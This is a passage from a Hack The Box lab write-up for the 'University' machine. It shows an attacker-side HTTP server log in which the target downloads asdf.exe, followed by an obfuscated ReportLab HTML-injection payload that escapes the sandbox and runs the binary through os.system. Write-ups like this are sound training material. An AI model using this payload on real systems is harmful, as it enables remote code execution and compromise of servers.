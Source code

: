![](images/2024-10-27_08-24_80_student_profile_update.png)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.153.87 - - [27/Oct/2024 09:55:28] "GET /asdf.exe HTTP/1.1" 200 -
```

As second step we just `executed` the previously saved `binary` by repeating the steps before but this time with a `slightly modified version` of the `payload`.

```c
<para>  
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('cmd /c asdf.exe') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">  
foobar  
</font>  
</para>
```

![](images/2024-10-27_16-39_80_student_profile_payload_execution.png)